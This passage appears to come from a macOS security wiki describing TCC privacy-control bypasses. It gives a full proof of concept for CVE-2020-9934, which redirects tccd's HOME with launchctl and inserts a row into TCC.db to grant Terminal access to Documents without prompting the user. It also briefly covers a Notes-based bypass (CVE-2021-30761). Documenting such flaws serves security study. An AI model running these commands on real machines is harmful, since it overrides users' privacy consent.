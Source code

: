 ## By App behaviour

### CVE-2020–9934 - TCC <a href="#c19b" id="c19b"></a>

The userland **tccd daemon** what using the **`HOME`** **env** variable to access the TCC users database from: **`$HOME/Library/Application Support/com.apple.TCC/TCC.db`**

According to [this Stack Exchange post](https://stackoverflow.com/questions/135688/setting-environment-variables-on-os-x/3756686#3756686) and because the TCC daemon is running via `launchd` within the current user’s domain, it's possible to **control all environment variables** passed to it.\
Thus, an **attacker could set `$HOME` environment** variable in **`launchctl`** to point to a **controlled** **directory**, **restart** the **TCC** daemon, and then **directly modify the TCC database** to give itself **every TCC entitlement available** without ever prompting the end user.\
PoC:

```bash
# reset database just in case (no cheating!)
$> tccutil reset All
# mimic TCC's directory structure from ~/Library
$> mkdir -p "/tmp/tccbypass/Library/Application Support/com.apple.TCC"
# cd into the new directory
$> cd "/tmp/tccbypass/Library/Application Support/com.apple.TCC/"
# set launchd $HOME to this temporary directory
$> launchctl setenv HOME /tmp/tccbypass
# restart the TCC daemon
$> launchctl stop com.apple.tccd && launchctl start com.apple.tccd
# print out contents of TCC database and then give Terminal access to Documents
$> sqlite3 TCC.db .dump
$> sqlite3 TCC.db "INSERT INTO access
                   VALUES('kTCCServiceSystemPolicyDocumentsFolder',
                   'com.apple.Terminal', 0, 1, 1,
X'fade0c000000003000000001000000060000000200000012636f6d2e6170706c652e5465726d696e616c000000000003',
                   NULL,
                   NULL,
                   'UNUSED',
                   NULL,
                   NULL,
                   1333333333333337);"
# list Documents directory without prompting the end user
$> ls ~/Documents
```

### CVE-2021-30761 - Notes

Notes had access to TCC protected locations but when a note is created this is **created in a non-protected location**. So, you could ask notes to copy a protected file in a noe (so in a non-protected location) and then access the file:

<figure><img src="../../../../../images/image (476).png" alt=""><figcaption></figcaption></figure>

